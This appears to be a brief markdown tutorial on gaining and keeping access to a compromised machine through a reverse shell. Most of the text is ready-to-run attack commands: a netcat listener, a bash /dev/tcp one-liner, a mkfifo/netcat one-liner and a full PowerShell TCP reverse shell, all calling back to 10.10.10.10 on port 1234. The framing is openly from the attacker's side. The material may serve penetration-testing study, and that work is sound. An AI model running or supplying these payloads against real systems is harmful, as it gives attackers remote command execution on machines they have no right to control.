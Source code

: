 # Why get a shell?

Once you have a system comprised, you dont want to have to configureand execute the same exploit to return to the system. Using networking protocols like ssh for Linux or WinRm for windows can get you a command line interface for an ip, but you will need credentials for that. Finding a service running on a system that is vunerable to opening shells can leave the attacker with a convenient point of entry back the to target.


# Reverse Shell
If you find a system that us vulnerable to remote code execution, you execute commands on the target machine to connect back to your machine. On your machine you use netcat to listen on a port, then on the target machine you execute a payload for a windows shell or linux shell

Commands to run on your machine:

``` bash 

nc -lvnp <port-number> 
```

-l stands for listen, v is for verbose so netcat will print outpur updating us on the state of the connection, n blocks DNS resolution so our machine doesnt try to connect to a DNS server and translate the incoming ip to a domain name and waste time, and p allows you to specify a port.

payloads to run on target machine:

lunix shells:
``` bash

	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

or

``` bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

	windows shell:

``` powershell

	powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```


